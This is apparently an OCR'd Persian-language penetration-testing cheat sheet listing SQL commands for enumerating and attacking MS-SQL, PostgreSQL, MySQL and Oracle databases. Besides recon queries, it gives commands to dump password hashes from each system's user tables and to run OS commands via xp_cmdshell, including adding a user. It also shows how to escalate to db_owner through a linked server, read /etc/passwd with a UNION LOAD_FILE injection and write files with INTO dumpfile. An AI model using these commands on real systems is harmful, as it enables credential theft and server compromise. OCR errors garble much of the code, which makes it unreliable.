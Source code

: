 # پایگاه داده

Ms-sql

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT @@version</td>
      <td style="text-align:left">نسخه پایگاه داده</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC xp_msver</td>
      <td style="text-align:left">جزییات نسخه</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC master..xp_cmdshell &apos;net user&apos;</td>
      <td style="text-align:left">اجرا دستور سیستم عامل</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT HOST_ NAME()</td>
      <td style="text-align:left">دریافت Hostname و IP</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DB_ NAME()</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master..sysdatabases;</td>
      <td style="text-align:left">لیست پایگاه داده ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user name()</td>
      <td style="text-align:left">کاربر فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master .. sjslogins</td>
      <td style="text-align:left">لیست کاربران</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT name FROM master..sysobjects WHERE</p>
        <p>xtype= &apos;U&apos;;</p>
      </td>
      <td style="text-align:left">لیست جدول ها</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p></p>
        <p>SELECT name FROM syscolumns WHERE id=(SELECT</p>
        <p>id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ;</p>
      </td>
      <td style="text-align:left">لیست ستون ها</td>
    </tr>
  </tbody>
</table>

### اطلاعات درباره تمام جدول های پایگاه داده در جدول سیستم

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### لیست جدول و ستون ها

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name= 'mytable')
```

### هش کلمه عبور 

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

### دور زدن سطح دسترسی کاربر

```text
execute('execute(''alter role [db_owner] add member [client]'') at "compatibility\poo_public"')
```

## Postgres

| **دستور** | **توضیح** |
| :--- | :--- |
| SELECT version\(\); | نسخه پایگاه داده |
| SELECT inet server\_addr\(\) | دریافت Hostname و IP |
| SELECT current database\(\); | پایگاه داده فعلی |
| SELECT datname FROM pg database; | لیست پایگاه داده |
| SELECT user; | کاربر جاری |
| SELECT username FROM pg\_user; | لیست کاربران |
| SELECT username,passwd FROM pg shadow | لیست هش کلمه عبور |

### لیست ستون

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### لیست جدول ها

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **دستور** | **توضیح** |
| :--- | :--- |
| SELECT @@version; | نسخه پایگاه دااده |
| SELECT @@hostname; | دریافت Hostname و IP |
| SELECT database\(\); | پایگاه داده فعلی |
| SELECT distinct \(db\) FROM mysql.db; | لیست پایگاه داده ها |
| SELECT user\(\); | کاربر فعلی |
| SELECT user FROM mysql.user; | لیست کاربران |
| SELECT host,user,password FROM mJsql.user; | لیست هش کلمه عبور ها |

### لیست تمامی جداول و ستون ها

```text
SELECT table schema, table name, column_ name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### اجرای دستور سیستم عامل در mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr`"
```

### خواندن فایلی های خواندنی در mysql

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### نوشتن در فایل سیستم در mysql

```text
SELECT * FROM mytable INTO dumpfile '/tmp/ somefile';
```

## Oracle 

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT * FROM v$version;</td>
      <td style="text-align:left">نسخه پایگاه داده</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT version FROM v$instance;</td>
      <td style="text-align:left">نسخه پایگاه داد</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT instance name FROM v$instance;</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM v$database;</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DISTINCT owner FROM all_tables;</td>
      <td style="text-align:left">لیست پایگاه داده ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user FROM dual;</td>
      <td style="text-align:left">کاربر فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT username FROM all_users ORDER BY</p>
        <p>username;</p>
      </td>
      <td style="text-align:left">لیست کابران</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT column name FROM all_tab_columns;</td>
      <td style="text-align:left">لیست ستون ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT table name FROM all_tables;</td>
      <td style="text-align:left">لیست جدول ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name, password, astatus FROM sys.user$;</td>
      <td style="text-align:left">لیست هش کلمه عبور ها</td>
    </tr>
  </tbody>
</table>

### لیست پایگاه های داده

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```
